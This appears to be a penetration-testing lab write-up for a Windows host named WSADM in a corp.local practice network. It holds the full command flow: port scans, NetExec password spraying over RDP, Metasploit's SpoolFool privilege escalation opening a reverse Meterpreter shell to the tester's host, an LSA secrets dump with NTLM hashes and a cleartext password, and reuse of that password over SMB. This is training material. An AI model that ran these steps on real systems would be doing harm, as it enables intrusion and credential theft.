


As usual we can start by using RUSTSCAN to check all the services alive on the TCP protocoll.

```
PORT      STATE SERVICE            REASON         VERSION
135/tcp   open  msrpc              syn-ack ttl 64 Microsoft Windows RPC
139/tcp   open  netbios-ssn        syn-ack ttl 64 Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?      syn-ack ttl 64
3389/tcp  open  ssl/ms-wbt-server? syn-ack ttl 64
|_ssl-date: 2024-07-01T10:43:46+00:00; +2s from scanner time.
| ssl-cert: Subject: commonName=WSADM.corp.local
| Issuer: commonName=WSADM.corp.local
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-06-30T03:32:47
| Not valid after:  2024-12-30T03:32:47
| MD5:   5464:da97:5c9f:72e9:19c8:c5a8:b05c:0954
| SHA-1: 1550:ca20:78c9:be06:8c16:dce7:3b2f:682b:d43d:4fa8
| -----BEGIN CERTIFICATE-----
| MIIC5DCCAcygAwIBAgIQUGNxMhPJppRJYUNk5a0WyjANBgkqhkiG9w0BAQsFADAb
| MRkwFwYDVQQDExBXU0FETS5jb3JwLmxvY2FsMB4XDTI0MDYzMDAzMzI0N1oXDTI0
| MTIzMDAzMzI0N1owGzEZMBcGA1UEAxMQV1NBRE0uY29ycC5sb2NhbDCCASIwDQYJ
| KoZIhvcNAQEBBQADggEPADCCAQoCggEBANuqqMlbvnpwBnmwIkWroGSH0Ar7Kv1R
| NhwKPw2R2ftD4kRNtFUeo2hOyR9b9H+2FM8Dy4UxT42E5BwPiYBKKdfUig2TPrao
| uT+BSwWsfCV4Qk5UautiskWvuL1JxJ6xaBwbLIUqVL1MqcocQfI9DutO2WdUOH6q
| L8Yp4Y53YhILazVpKyJutbvAH54BIvc9H4absDuhJLkO6aj4IWcI4/t3M5ICkD8D
| kqZJxQ4IPiqt6Qk5f2KzO65wOWW6W/x7rq68ew7TZAQpawlzOAZMyQ21RwHOeSEH
| LL35pT74gzBRFZvGy2dWsVevReTFrK3MxPQAV7FGrcWGeKLCV5GQ/XUCAwEAAaMk
| MCIwEwYDVR0lBAwwCgYIKwYBBQUHAwEwCwYDVR0PBAQDAgQwMA0GCSqGSIb3DQEB
| CwUAA4IBAQCA5Qj95J/TQM0zLOSm6XteU7thMKTyvSn24SyAAafpfObVBbxq6Pja
| d3fyZ1u/b/MsyYAqVrBh70b1nY3CKqIK9EG7CBTIc/FF//4K2HVxlPm0RI2aUfgQ
| woUK0Tj/sa7e4kg7Mluf277GIdclhl9JiL7pRTsr5cu7H1RMLhRNaFTVV4TZf4YT
| QV81pGq3HCEe7NBQkdPHeX5ZB+DkKubenV1OWmhz9eTSBrhnl2ivZPHaVMn6j/+f
| T+KIsGTQKPUzvmzWXkw/5nvWwWttU5MGVf0lZWKsngzFvC9+tvAIH/yjp2nLX83G
| YDtjZgD8cCBr8/yR/UmrRipVAx7+UObX
|_-----END CERTIFICATE-----
| rdp-ntlm-info: 
|   Target_Name: CORP
|   NetBIOS_Domain_Name: CORP
|   NetBIOS_Computer_Name: WSADM
|   DNS_Domain_Name: corp.local
|   DNS_Computer_Name: WSADM.corp.local
|   DNS_Tree_Name: corp.local
|   Product_Version: 10.0.19041
|_  System_Time: 2024-07-01T10:43:30+00:00
5040/tcp  open  unknown            syn-ack ttl 64
5985/tcp  open  http               syn-ack ttl 64 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
8733/tcp  open  http               syn-ack ttl 64 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
47001/tcp open  http               syn-ack ttl 64 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49632/tcp open  msrpc              syn-ack ttl 64 Microsoft Windows RPC
49664/tcp open  msrpc              syn-ack ttl 64 Microsoft Windows RPC
49665/tcp open  msrpc              syn-ack ttl 64 Microsoft Windows RPC
49666/tcp open  msrpc              syn-ack ttl 64 Microsoft Windows RPC
49667/tcp open  msrpc              syn-ack ttl 64 Microsoft Windows RPC
49668/tcp open  msrpc              syn-ack ttl 64 Microsoft Windows RPC
49669/tcp open  msrpc              syn-ack ttl 64 Microsoft Windows RPC
49670/tcp open  msrpc              syn-ack ttl 64 Microsoft Windows RPC
57610/tcp open  msrpc              syn-ack ttl 64 Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
TCP/IP fingerprint:
SCAN(V=7.94SVN%E=4%D=7/1%OT=135%CT=%CU=%PV=Y%G=N%TM=66828861%P=x86_64-pc-linux-gnu)
SEQ(SP=102%GCD=1%ISR=10D%TI=I%CI=RD%II=RI%TS=A)
OPS(O1=M5B4NNT11NW7%O2=M5B4NNT11NW7%O3=M5B4NNT11NW7%O4=M5B4NNT11NW7%O5=M5B4NNT11NW7%O6=M5B4NNT11)
WIN(W1=7200%W2=7200%W3=7200%W4=7200%W5=7200%W6=7200)
ECN(R=Y%DF=N%TG=40%W=7200%O=M5B4NW7%CC=N%Q=)
T1(R=Y%DF=N%TG=40%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=Y%DF=N%TG=40%W=0%S=Z%A=S%F=AR%O=%RD=0%Q=)
T3(R=Y%DF=N%TG=40%W=7200%S=O%A=S+%F=AS%O=M5B4NNT11NW7%RD=0%Q=)
T4(R=Y%DF=N%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T5(R=Y%DF=N%TG=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
T6(R=Y%DF=N%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T7(R=Y%DF=N%TG=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
U1(R=N)
IE(R=Y%DFI=S%TG=40%CD=S)

Uptime guess: 37.218 days (since Sat May 25 07:30:15 2024)
TCP Sequence Prediction: Difficulty=258 (Good luck!)
IP ID Sequence Generation: Incrementing by 2
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

And do the same on the first 1k(ish) ports alive on the UDP protocoll via NMAP this time.

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/OffShore]
└─# nmap -F -sU 172.16.1.36
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-01 12:14 CEST
Nmap scan report for 172.16.1.36
Host is up (0.032s latency).
Not shown: 99 open|filtered udp ports (no-response)
PORT    STATE SERVICE
137/udp open  netbios-ns

Nmap done: 1 IP address (1 host up) scanned in 68.05 seconds
```

&nbsp;

# Back on track

Now with credentials found in the Excell file we can see that flanders can RDP to this machine?

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/OffShore]
└─# NetExec rdp hosts.txt -u 'ned.flanders_adm' -p 'Lefthandedyeah!' -d 'corp.local'
RDP         172.16.1.200    3389   DC0              [*] Windows 10 or Windows Server 2016 Build 17763 (name:DC0) (domain:corp.local) (nla:True)
RDP         172.16.1.36     3389   WSADM            [*] Windows 10 or Windows Server 2016 Build 19041 (name:WSADM) (domain:corp.local) (nla:True)
RDP         172.16.1.24     3389   WEB-WIN01        [*] Windows 10 or Windows Server 2016 Build 14393 (name:WEB-WIN01) (domain:corp.local) (nla:True)
RDP         172.16.1.30     3389   MS01             [*] Windows 10 or Windows Server 2016 Build 14393 (name:MS01) (domain:corp.local) (nla:True)
RDP         172.16.1.200    3389   DC0              [-] corp.local\ned.flanders_adm:Lefthandedyeah! (STATUS_LOGON_FAILURE)
RDP         172.16.1.5      3389   DC01             [*] Windows 10 or Windows Server 2016 Build 14393 (name:DC01) (domain:corp.local) (nla:True)
RDP         172.16.1.36     3389   WSADM            [+] corp.local\ned.flanders_adm:Lefthandedyeah! (Pwn3d!)
RDP         172.16.1.15     3389   SQL01            [*] Windows 10 or Windows Server 2016 Build 14393 (name:SQL01) (domain:corp.local) (nla:True)
RDP         172.16.1.26     3389   FS01             [*] Windows 10 or Windows Server 2016 Build 14393 (name:FS01) (domain:corp.local) (nla:True)
RDP         172.16.1.24     3389   WEB-WIN01        [+] corp.local\ned.flanders_adm:Lefthandedyeah! 
RDP         172.16.1.30     3389   MS01             [+] corp.local\ned.flanders_adm:Lefthandedyeah! 
RDP         172.16.1.5      3389   DC01             [+] corp.local\ned.flanders_adm:Lefthandedyeah! 
RDP         172.16.1.15     3389   SQL01            [+] corp.local\ned.flanders_adm:Lefthandedyeah! 
RDP         172.16.1.101    3389   WS02             [*] Windows 7 or Windows Server 2008 R2 Build 7601 (name:WS02) (domain:corp.local) (nla:True)
RDP         172.16.1.26     3389   FS01             [+] corp.local\ned.flanders_adm:Lefthandedyeah! 
RDP         172.16.1.101    3389   WS02             [-] corp.local\ned.flanders_adm:Lefthandedyeah! 
Running nxc against 10 targets ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100% 0:00:00
```

Now upon login I checked and I don't see strange permissions:  


Nor strange installed SW that could be used to PE, I also run the `PowerUp.ps1 - Invoke-AllChecks` but nothing came out so far.

So I decided to upgrade this to a meterpreter session and use the Exploit suggester to guide me on how can this be PE to NTSystem.

```
msf6 post(multi/recon/local_exploit_suggester) > run

[*] 172.16.1.36 - Collecting local exploits for x64/windows...
[*] 172.16.1.36 - 196 exploit checks are being tried...
[+] 172.16.1.36 - exploit/windows/local/bypassuac_dotnet_profiler: The target appears to be vulnerable.
[+] 172.16.1.36 - exploit/windows/local/bypassuac_fodhelper: The target appears to be vulnerable.
[+] 172.16.1.36 - exploit/windows/local/bypassuac_sdclt: The target appears to be vulnerable.
[+] 172.16.1.36 - exploit/windows/local/cve_2020_1313_system_orchestrator: The target appears to be vulnerable.
[+] 172.16.1.36 - exploit/windows/local/cve_2022_21882_win32k: The target appears to be vulnerable.
[+] 172.16.1.36 - exploit/windows/local/cve_2022_21999_spoolfool_privesc: The target appears to be vulnerable.
[+] 172.16.1.36 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The service is running, but could not be validated.
[*] Running check method for exploit 45 / 45
[*] 172.16.1.36 - Valid modules for session 1:
============================

 #   Name                                                           Potentially Vulnerable?  Check Result
 -   ----                                                           -----------------------  ------------
 1   exploit/windows/local/bypassuac_dotnet_profiler                Yes                      The target appears to be vulnerable.
 2   exploit/windows/local/bypassuac_fodhelper                      Yes                      The target appears to be vulnerable.
 3   exploit/windows/local/bypassuac_sdclt                          Yes                      The target appears to be vulnerable.
 4   exploit/windows/local/cve_2020_1313_system_orchestrator        Yes                      The target appears to be vulnerable.
 5   exploit/windows/local/cve_2022_21882_win32k                    Yes                      The target appears to be vulnerable.
 6   exploit/windows/local/cve_2022_21999_spoolfool_privesc         Yes                      The target appears to be vulnerable.
 7   exploit/windows/local/ms16_032_secondary_logon_handle_privesc  Yes                      The service is running, but could not be validated.
```

And seems like using the spoolfool made me get a shell as NTSystem nice!

```
msf6 exploit(windows/local/cve_2022_21999_spoolfool_privesc) > run

[*] Started reverse TCP handler on 10.10.14.5:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Making base directory: C:\Users\ned.flanders_adm\AppData\Local\Temp\iYgwarbLvjwy
[+] Printer IEPxiCUj was successfully added.
[*] Setting spool directory: \\localhost\C$\Users\ned.flanders_adm\AppData\Local\Temp\iYgwarbLvjwy\4
[*] Creating junction point: C:\Users\ned.flanders_adm\AppData\Local\Temp\iYgwarbLvjwy -> C:\Windows\System32\spool\drivers\x64
[*] Creating the spool directory by restarting spooler...
[*] Attempting to restart print spooler.
[*] Sleeping for 5 seconds.
[+] Directory was successfully created.
[*] Writing payload to C:\Windows\System32\spool\drivers\x64\4\PiLqjsajhhc.dll.
[*] Attempting to set permissions for payload.
[*] Payload should have read / execute permissions now.
[*] Sending stage (201798 bytes) to 10.10.110.3
[+] Deleted C:\Windows\System32\spool\drivers\x64\4\PiLqjsajhhc.dll
[+] Deleted C:\Users\ned.flanders_adm\AppData\Local\Temp\iYgwarbLvjwy
[+] Deleted C:\Windows\System32\spool\drivers\x64\4
[*] Meterpreter session 2 opened (10.10.14.5:4444 -> 10.10.110.3:10807) at 2024-07-01 21:17:10 +0200

meterpreter > getuid 
Server username: NT AUTHORITY\SYSTEM
meterpreter >
```

And we have some credentials out of the LSASS secrets:

```
meterpreter > lsa_dump_secrets
[+] Running as SYSTEM
[*] Dumping LSA secrets
Domain : WSADM
SysKey : 0227171ea0ee09d093667b75d0fadb90

Local name : WSADM ( S-1-5-21-1722741643-2714478462-3020786435 )
Domain name : CORP ( S-1-5-21-2291914956-3290296217-2402366952 )
Domain FQDN : corp.local

Policy subsystem is : 1.18
LSA Key(s) : 1, default {ca93a0ed-ac44-ace1-8536-568dadda027f}
  [00] {ca93a0ed-ac44-ace1-8536-568dadda027f} f5d21541dea9abed7fad5c5f313624c2a58528ea8f13326d0a60075cdce5d2ad

Secret  : $MACHINE.ACC
cur/text: M9f,Dzf*5tM9>'BjGhH`;KETEKLcQ;K&NQg/gGRGSJFs'Np\ah%(OB^aXLjNa[1eB"a>+U^<z`j'Ca"TZV=fm+BBDW&t/?0Hm)R>)ZkcswFkz:8PQFp*b!>4
    NTLM:19f221a69c0693ebfdc064393b55d509
    SHA1:ef3a26edd7e7533956cd121ad45839b7f8e58df9
old/text: M9f,Dzf*5tM9>'BjGhH`;KETEKLcQ;K&NQg/gGRGSJFs'Np\ah%(OB^aXLjNa[1eB"a>+U^<z`j'Ca"TZV=fm+BBDW&t/?0Hm)R>)ZkcswFkz:8PQFp*b!>4
    NTLM:19f221a69c0693ebfdc064393b55d509
    SHA1:ef3a26edd7e7533956cd121ad45839b7f8e58df9

Secret  : DefaultPassword
cur/text: Workstationadmin1!

Secret  : DPAPI_SYSTEM
cur/hex : 01 00 00 00 31 88 61 19 7d af 7e e8 e4 04 26 7b 8e 5a 64 38 15 56 24 6e 8c 35 88 5f cf 74 e5 51 b5 13 9a 77 42 80 8d d0 b6 2b 7c 27 
    full: 318861197daf7ee8e404267b8e5a64381556246e8c35885fcf74e551b5139a7742808dd0b62b7c27
    m/u : 318861197daf7ee8e404267b8e5a64381556246e / 8c35885fcf74e551b5139a7742808dd0b62b7c27
old/hex : 01 00 00 00 dd 9e 47 78 cc c3 dc e4 6f 49 14 00 89 54 fd db 9f d4 6e 7d 0c b5 2f ce 9e ba b9 68 5d 49 56 20 1f 3e 26 2c 2e 4f 6d 5e 
    full: dd9e4778ccc3dce46f4914008954fddb9fd46e7d0cb52fce9ebab9685d4956201f3e262c2e4f6d5e
    m/u : dd9e4778ccc3dce46f4914008954fddb9fd46e7d / 0cb52fce9ebab9685d4956201f3e262c2e4f6d5e

Secret  : L$_SQSA_S-1-5-21-1722741643-2714478462-3020786435-1001
cur/text: {"version":1,"questions":[]}

Secret  : NL$KM
cur/hex : fc 29 9a f7 e3 96 d5 39 fd ff 6a 8f 2e 6a ae 34 a1 d6 12 e6 81 8d 8e b2 5f c5 6f 4e d9 70 dc 1f a6 07 0d bd a6 71 75 d6 d0 ac 24 fb f3 00 dd 26 96 19 3b 2b a2 09 78 90 98 53 3e 02 06 0c 6e f0 
old/hex : fc 29 9a f7 e3 96 d5 39 fd ff 6a 8f 2e 6a ae 34 a1 d6 12 e6 81 8d 8e b2 5f c5 6f 4e d9 70 dc 1f a6 07 0d bd a6 71 75 d6 d0 ac 24 fb f3 00 dd 26 96 19 3b 2b a2 09 78 90 98 53 3e 02 06 0c 6e f0 


meterpreter >
```

And those seems like WSAdmin credentials?

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/OffShore]
└─# NetExec smb 172.16.1.36 -u 'wsadmin' -p 'Workstationadmin1!' -d 'corp.local' 
SMB         172.16.1.36     445    WSADM            [*] Windows 10 / Server 2019 Build 19041 x64 (name:WSADM) (domain:corp.local) (signing:False) (SMBv1:False)
SMB         172.16.1.36     445    WSADM            [+] corp.local\wsadmin:Workstationadmin1! (Pwn3d!)
```

And with those we can grab another flag baby:



I feel we can move on so far to WS02 machine.

&nbsp;